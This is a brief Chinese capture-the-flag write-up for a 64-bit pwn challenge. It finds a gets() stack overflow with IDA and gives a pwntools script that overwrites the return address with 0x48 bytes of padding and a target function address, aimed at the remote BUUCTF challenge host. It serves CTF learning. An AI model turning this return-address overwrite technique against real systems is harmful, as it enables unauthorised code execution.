

拿到文件，先查看保护。发现是64位，Stack、NX、PIE都没有开

拖到ida打开查看

明显的gets函数溢出。打开字符串视图找到了

直接最后把返回地址覆盖为这个函数地址就可以了

v5大小是0x40 应为是楼4位所以+0x8就可以覆盖到返回地址了。

构造payload

\[precode\]

from pwn import \*

#p = process('pwn')

p = remote("node4.buuoj.cn",27940)

p.sendline(b'a'\*(0x40 + 0x8) + p64(0x40060D))

p.interactive()

\[/precode\]
